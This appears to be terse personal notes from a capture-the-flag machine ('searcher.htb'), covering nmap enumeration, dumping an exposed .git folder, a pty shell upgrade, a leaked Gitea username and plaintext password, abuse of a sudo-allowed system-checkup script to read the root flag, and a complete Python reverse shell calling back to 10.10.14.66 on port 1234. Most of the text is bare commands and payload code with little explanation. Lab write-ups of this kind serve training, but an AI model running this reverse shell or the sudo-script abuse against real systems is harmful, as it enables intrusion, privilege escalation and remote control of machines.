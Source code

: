 

# Hacking basic enumuration process

**nmap** - This is the first step of enumeration, this will give some good piece of information

- Post scanning we got to know that 
    - ssh and http is running (22 and 80)
    - Also I have found that a .git folder exists

- So I have opened the ip which redirects to domainname, so I have added that in my host entry 
    - It gave me one website with one upload 

- Also we have found .git folder so I have searched and got to know there is a tool to get download the .git files and folder [via this link](https://pentester.land/blog/source-code-disclosure-via-exposed-git-folder/)

- After going through the code for few hours nothing got inside the code base post checking index.php, login.php, bulletproof.php etc..., except file storage paths, this might be useful in later
- Then i found the file magic , and ran the command -usage to get details about the and i got to know that this is a package.
- Then I searched in google with the version name and package name to get more details,  after the search i got 1 additional detail that [this package is written in rust](https://www.exploit-db.com/exploits/51261)

python3 -c 'import pty; pty.spawn("/bin/bash")'

fsmonitor-watchman.sample

http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_s
jh1usoih2bkjaspwe92

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps

sudo /usr/bin/python3 /opt/scripts/system-checkup.py cat /root/root.txt

#!/bin/bash
cat /root/root.txt


#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.66",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")